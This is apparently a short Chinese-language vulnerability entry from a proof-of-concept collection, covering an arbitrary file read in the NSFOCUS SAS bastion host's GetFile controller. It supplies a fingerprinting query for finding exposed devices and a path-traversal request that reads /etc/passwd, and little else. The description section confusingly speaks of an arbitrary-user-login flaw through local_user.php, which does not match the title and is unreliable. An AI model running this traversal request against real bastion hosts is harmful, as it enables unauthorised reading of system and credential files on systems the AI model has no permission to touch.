

# 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

绿盟 SAS堡垒机

## 网络测绘

```
body="'/needUsbkey.php?username='"
```

## 漏洞复现

登陆页面


漏洞存在于文件 GetFileController.php 文件中


验证POC

```
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

